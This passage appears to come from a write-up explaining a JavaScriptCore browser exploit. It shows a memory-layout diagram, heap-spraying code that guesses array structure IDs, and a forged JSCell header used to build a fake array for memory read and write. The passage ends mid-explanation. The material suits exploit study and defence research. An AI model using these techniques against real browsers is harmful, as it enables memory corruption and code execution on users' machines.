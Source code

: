 ```
+--------------+      +--------------+      +-----------------------+
| Array #1     | +--> | Array #2     |      | Original Butterfly    |
| (hax)        | |    | (victim)     |      | (victim's butterfly)  |
|              | |    |              |      |                       |
| Structure ID | |    | Structure ID |      | ...                   |
| Butterfly ---+-+    | Butterfly ---+-+    | property 0 -> pointer |
+--------------+      +--------------+ |    | public len|vector len |
                                       |    | array slot 0          |
                                       |    | ...                   |
                                       |    +-----------------------+
                                       |
                                       |    +-----------------------+
                                       |    | Fake Butterfly        |
                                       |    | (victim's butterfly)  |
                                       |    |                       |
                                       |    | ...                   |
                                       |    | addr -> "pointer"     |
                                       |    | addr + 0x8            |
                                       +--->| addr + 0x10           |
                                            | ...                   |
                                            +-----------------------+
```

#### Details

The exploit itself starts by spraying the engine with array structures containing doubles in order to guess their ID. This will be used later on to create our fake `hax` object.

```javascript
var structs = [];
for (var i = 0; i < 0x1000; ++i) {
    var array = [13.37];
    array.pointer = 1234;
    array['prop' + i] = 13.37;
    structs.push(array);
}
```

The `victim` array described in the previous section is taken from the `structs` array defined above in the spraying loop. This is a way to ensure that the bytes preceeding the array object in memory are not null. It is important because `victim` will be treated as `hax`'s butterfly later on, and those preceeding bytes will represent its length, which is why they cannot be null.

```javascript
var victim = structs[0x800];
```

To build a fake array `hax` containing doubles, we need to use a valid `JSCell` to describe it. An annoted snippet of code creating a valid one is given below. 

```
var js_cell_header = new Int64([
    0x0, 0x10, 0x0, 0x0,    // m_structureID: current guess is set to 0x1000.
    0x7,                    /*
                             * m_indexingType: I don't know, it's taken from
                             * the header of a similar object and was found
                             * through debugging.
                             */
    0x20,                   // m_type: ArrayType (DerivedArrayType also works)
    0x08,                   // m_flags: None
    0x1                     // m_cellState: DefinitelyWhite
]);
```
An array object contains a `JSCell` to describe the object and an address to a butterfly containing its values. These values, used for creating `hax`, are put inside a containing object, named `container`. The properties `header` and `butterfly` are inlined in the object `container`. Which is why we obtain the following layout in memory: